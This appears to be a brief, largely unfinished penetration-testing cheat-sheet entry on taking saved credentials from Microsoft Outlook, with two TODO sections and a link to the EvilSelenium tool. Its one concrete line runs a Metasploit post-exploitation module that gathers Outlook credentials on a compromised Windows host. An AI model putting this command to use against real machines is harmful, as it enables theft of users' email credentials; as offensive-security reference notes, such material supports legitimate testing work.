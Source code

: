 # Outlook

## 01 - Manual

TODO: Fill this info

## 02 - Metasploit

`meterpreter > run post/windows/gather/credentials/outlook`

## 03 - EvilSelenium

TODO: Fill this info

## References

- [EvilSelenium](https://github.com/mrd0x/EvilSelenium)